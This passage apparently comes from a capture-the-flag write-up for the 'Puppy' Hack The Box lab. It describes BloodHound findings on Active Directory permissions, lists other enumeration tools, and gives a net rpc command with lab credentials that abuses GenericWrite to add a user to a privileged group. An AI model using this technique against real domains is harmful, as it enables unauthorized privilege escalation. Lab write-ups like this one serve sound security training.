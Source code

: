 - `steph.cooper` has administrative access
- `ant.edwards` has GenericAll permissions over `adam.silver`
![BloodHound Groups](/assets/bloodhound10.png)

### 🔄 Alternative Paths
> **Note:** While we used BloodHound, here are some alternative approaches you could try:
> 1. Using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) for AD enumeration
> 2. Using [ldapsearch](https://linux.die.net/man/1/ldapsearch) for direct LDAP queries
> 3. Using [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) for RPC enumeration
> 4. Using [ADExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer) for GUI-based enumeration

### Privilege Escalation Path
Let's abuse that GenericWrite permission to add `levi.james` to the Developers group:

```bash
net rpc group addmem "Developers" "levi.james" -U "puppy.htb/levi.james%KingofAkron2025!" -S "dc.puppy.htb"
```
